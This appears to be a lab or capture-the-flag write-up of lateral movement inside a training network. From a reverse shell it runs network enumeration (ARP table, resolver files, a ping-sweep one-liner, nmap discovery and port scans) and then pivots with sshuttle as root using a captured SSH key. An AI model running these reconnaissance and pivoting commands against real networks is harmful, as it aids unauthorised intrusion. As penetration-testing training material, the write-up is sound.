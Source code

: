 # lateral movement

Executed various commands on reverse shell to look for other targets on network.

Check ARP Table:

```bash
arp -a
```

output:
```
sh-4.4# arp -a
arp -a
ip-10-200-187-1.eu-west-1.compute.internal (10.200.187.1) at 02:31:88:4f:0c:ed [ether] on eth0
ip-10-200-187-150.eu-west-1.compute.internal (10.200.187.150) at 02:16:6c:8e:9d:0d [ether] on eth0
ip-10-200-187-100.eu-west-1.compute.internal (10.200.187.100) at 02:13:40:67:5d:6d [ether] on eth0
ip-10-200-187-250.eu-west-1.compute.internal (10.200.187.250) at 02:c7:1d:c0:02:7b [ether] on eth0
```

Check /etc/hosts file:

```bash
cat /etc/hosts
```

output:
```
sh-4.4# cat /etc/hosts
cat /etc/hosts
127.0.0.1   localhost localhost.localdomain localhost4 localhost4.localdomain4
::1         localhost localhost.localdomain localhost6 localhost6.localdomain6
```

Check /etc/resolv.conf file:

```bash
cat /etc/resolv.conf
```

output:
```
sh-4.4# cat /etc/resolv.conf
cat /etc/resolv.conf
# Generated by NetworkManager
search eu-west-1.compute.internal
nameserver 10.200.0.2
```

Bash one-liner for ping sweep:

```bash
for i in {1..255}; do (ping -c 1 10.200.187.${i} | grep "bytes from" &); done
```

Output:

```
sh-4.4# for i in {1..255}; do (ping -c 1 10.200.187.${i} | grep "bytes from" &); done
<g -c 1 10.200.187.${i} | grep "bytes from" &); done
64 bytes from 10.200.187.1: icmp_seq=1 ttl=255 time=0.271 ms
64 bytes from 10.200.187.200: icmp_seq=1 ttl=64 time=0.053 ms
64 bytes from 10.200.187.250: icmp_seq=1 ttl=64 time=0.452 ms
```

Summary:
* 3 new IPs: .100, .150, .250
* DNS server: 10.200.0.2
* Pingable hosts: .1, .200, .250
* Actual hosts: .100, .150
  - .1 and .250 are for the router and OpenVPN server, respectively

Downloaded nmap binary, transfered it to webserver using python http.server.

Ran nmap on webserver to enumerate internal network:

```bash
./nmap-fyr -sn 10.200.187.1-255 -oN scan-fyr
```

Output:

```
sh-4.4# ./nmap-fyr -sn 10.200.187.1-255 -oN scan-fyr
./nmap-fyr -sn 10.200.187.1-255 -oN scan-fyr

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-08-16 23:40 BST
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-187-1.eu-west-1.compute.internal (10.200.187.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00025s latency).
MAC Address: 02:31:88:4F:0C:ED (Unknown)
Nmap scan report for ip-10-200-187-100.eu-west-1.compute.internal (10.200.187.100)
Host is up (0.00016s latency).
MAC Address: 02:13:40:67:5D:6D (Unknown)
Nmap scan report for ip-10-200-187-150.eu-west-1.compute.internal (10.200.187.150)
Host is up (-0.10s latency).
MAC Address: 02:16:6C:8E:9D:0D (Unknown)
Nmap scan report for ip-10-200-187-250.eu-west-1.compute.internal (10.200.187.250)
Host is up (0.00017s latency).
MAC Address: 02:C7:1D:C0:02:7B (Unknown)
Nmap scan report for ip-10-200-187-200.eu-west-1.compute.internal (10.200.187.200)
Host is up.
Nmap done: 255 IP addresses (5 hosts up) scanned in 3.73 seconds
```

Further nmap scans:

```bash
./nmap-fyr 10.200.187.100,150 -p 1-15000
```

Output:

```
sh-4.4# ./nmap-fyr 10.200.187.100,150 -p 1-15000
./nmap-fyr 10.200.187.100,150 -p 1-15000

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-08-17 00:28 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-187-100.eu-west-1.compute.internal (10.200.187.100)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.20s latency).
All 15000 scanned ports on ip-10-200-187-100.eu-west-1.compute.internal (10.200.187.100) are filtered
MAC Address: 02:13:40:67:5D:6D (Unknown)

Nmap scan report for ip-10-200-187-150.eu-west-1.compute.internal (10.200.187.150)
Host is up (0.00052s latency).
Not shown: 14997 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
MAC Address: 02:16:6C:8E:9D:0D (Unknown)

Nmap done: 2 IP addresses (2 hosts up) scanned in 329.20 seconds
sh-4.4#
```

Use sshuttle to perform lateral movement via VPN:

```bash
sshuttle -r root@10.200.187.200 --ssh-cmd "ssh -i id_rsa" 10.200.187.0/24 -x 10.200.187.200
```
